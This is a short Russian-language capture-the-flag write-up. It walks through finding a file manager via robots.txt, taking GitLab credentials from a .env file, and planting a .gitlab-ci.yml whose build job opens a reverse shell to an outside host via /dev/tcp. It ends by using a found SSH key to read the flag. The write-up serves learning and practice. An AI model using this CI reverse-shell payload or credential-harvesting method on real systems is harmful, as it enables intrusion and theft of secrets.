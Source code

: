 Решение от @Dan1Lev

Заглянув в robots.txt блога находим "Файловый менеджер" 
Disallow: /shell.php
Внутни которого лежит .env файл из которого получаем адрес и данные для gitlab

Открываем репозиторий и создаём CI/CD файл .gitlab-ci.yml через который получаем обратную оболочку
stages:
  - build

shell:
  stage: build
  script:
    - sh -i >& /dev/tcp/ts.fsox.ru/1964 0>&1

В корневой папке пользователя в .ssh находим ssh ключ, а в .bash_history логин и хост
подключаемся и забираем флаг
shell

ssh -o StrictHostKeyChecking=no -i ~/.ssh/id_rsa prod@production cat flag.txt

